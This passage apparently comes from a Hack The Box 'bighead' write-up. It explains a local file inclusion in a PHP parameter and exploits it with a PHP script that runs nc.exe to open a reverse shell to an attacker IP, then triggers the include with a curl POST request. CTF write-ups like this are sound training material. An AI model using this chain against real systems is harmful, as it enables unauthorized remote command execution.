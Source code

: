 ```
if(isset($_POST['PiperID'])){$PiperCoinAuth = $_POST['PiperCoinID']; //plugins/ppiper/pipercoin.php                                         
        $PiperCoinSess = base64_decode($PiperCoinAuth);                                                                                     
        $PiperCoinAvitar = (string)$PiperCoinSess;}
```
#### `PiperID` is not important but `PiperCoinID` is. It's taking the value of `PiperCoinID` and assigning it to another variable called `$PiperCoinAuth`. After that it's calling [`require_once()`](https://www.php.net/manual/en/function.require-once.php) with `$PiperCoinAuth`.
![](/images/hackthebox/bighead/123.png)
#### The vulnerability here is obvious. If we can control what's in `require_once()` Then we can make it include any `php` file of our choice (Local File Inclusion).
#### I created a simple `php` script to execute `nc.exe` and give me a reverse shell :
![](/images/hackthebox/bighead/124.png)
```
<?php
system('C:\Users\Nelson\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.xx.xx 1339');
?>
```
#### I uploaded it and uploaded `nc.exe` to `C:\Users\Nelson\AppData\Local\Temp\` :
![](/images/hackthebox/bighead/125.png)
####  Last step is to exploit the vulnerability. We will send a POST request to `http://code.bighead.htb/testlink/linkto.php` With the parameters `PiperID` (we can leave it empty) and `PiperCoinID` which will be the path of the `php` script (`C:\Users\Nelson\AppData\Local\Temp\rev.php`) :
`curl -X POST "http://code.bighead.htb/testlink/linkto.php" -d "PiperID=&PiperCoinID=C:\Users\Nelson\AppData\Local\Temp\rev.php"`